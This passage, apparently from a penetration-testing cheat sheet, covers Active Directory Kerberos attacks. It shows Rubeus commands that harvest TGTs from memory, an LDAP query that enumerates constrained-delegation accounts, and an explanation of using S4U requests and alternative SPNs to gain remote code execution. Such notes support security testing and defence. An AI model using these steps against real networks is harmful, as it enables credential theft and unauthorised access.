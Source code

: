 ###### TGTs retrieval and usage

The `monitor` module of the `Rubeus` C# utility can be used to extract the
`TGTs` stored in memory (elevated privileges are required on the system).

The `monitor` module will periodically extract all `TGTs` and display any
newly captured `TGTs`.

```bash
# The TGTs will be extracted every 60 seconds by default.
Rubeus.exe monitor

Rubeus.exe monitor /interval:<INTERVAL_IN_SECONDS> /filteruser:<USERNAME>
```

Refer to the `[ActiveDirectory] Kerberos tickets usage` for more information on
how to make use of the obtained `TGT`.

### Constrained delegation exploit

A principal trusted for `constrained delegation` can impersonate any user (that
can be delegated) to the services.

###### Enumeration of the msDS-AllowedToDelegateTo attribute

```bash
# Retrieves the value of the msDS-AllowedToDelegateTo attribute of all objects in the domain that are trusted for constrained delegation.
Get-ADObject -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msDS-AllowedToDelegateTo=*))" -Properties msDS-AllowedToDelegateTo

# With formation, from https://alsid.com/fr/node/143.
Get-ADObject -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msDS-AllowedToDelegateTo=*))" -Properties msDS-AllowedToDelegateTo | ForEach-Object {
    [PSCustomObject]@{
        DistinguishedName          = $_.DistinguishedName
        'msDS-AllowedToDelegateTo' = $_.'msDS-AllowedToDelegateTo'
    }
}
```

###### Exploitation of constrained delegation

`Rubeus`'s `s4u` module or `impackets`'s `getST.py` Python script can be used
to make `S4U2self` and `S4U2proxy` requests to retrieve a `service ticket` to
the constrained service impersonating the specified user.

Even if delegation rights are only granted on a specific `SPN`, `alternative
services` can be specified in order to retrieve `service tickets` for others
services supported by the host, effectively bypassing the limitation. For
instance, if a principal is only allowed to delegate to the `time` service of
an host (`time\<host>`), `service tickets` can still be requested for the
`HOST` or `CIFS` `SPN` of the host, leading to remote code execution.

Refer to the `S4U service tickets and usage` section below (common with
`resource-based constrained delegation` exploitation) for more information on
how to request and use the aforementioned tools.
